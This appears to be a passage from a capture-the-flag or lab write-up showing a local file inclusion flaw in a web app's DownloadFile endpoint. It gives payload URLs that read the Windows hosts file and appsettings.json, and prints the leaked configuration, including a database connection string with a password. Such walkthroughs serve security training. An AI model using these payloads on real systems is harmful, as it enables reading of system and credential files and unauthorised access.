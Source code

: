 - We can navigate the web app and discover a LFI vulnerability in the [Documentation and license information](https://as-wgjanydkoi2685872.azurewebsites.net/Home/DownloadFile?fileName=aboutus.txt) link.
- We can test this vulnerability by asking the web app to fetch the `C:\Windows\System32\drivers\etc\hosts` file which is downloaded to our machine when we visit `https://as-wgjanydkoi2685872.azurewebsites.net/Home/DownloadFile?fileName=C:\Windows\System32\drivers\etc\hosts` which confirms that the vulnerability indeed exists.
- We can access [files that contain sensitive information](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/configuration/?view=aspnetcore-8.0), such as `appsettings.json` using the following payload `https://as-wgjanydkoi2685872.azurewebsites.net/Home/DownloadFile?fileName=appsettings.json`.
- The file contains some credentials.
```json
{

    "ConnectionStrings": {
        "DefaultConnection": "Server=(salesproddb)\\mssqlproddb;Database=TravelData;Trusted_Connection=True;MultipleActiveResultSets=true;user=proddb;password=or6+dE/Yd29B93r:}:aU"
    },

    "service_storage": 
    {
        "match" : true,
        "bucket_type" : "private", 
         "error" : "Replay",
                "allow": null,
                "read": "if",
                "resource.metadata.Shared" : "=="
                
    },


    "Logging": {
        "LogLevel": {
            "Default": "Information",
            "Microsoft": "Warning",
            "Microsoft.Hosting.Lifetime": "Information"
        }
    },
    "AllowedHosts": "*"
}

```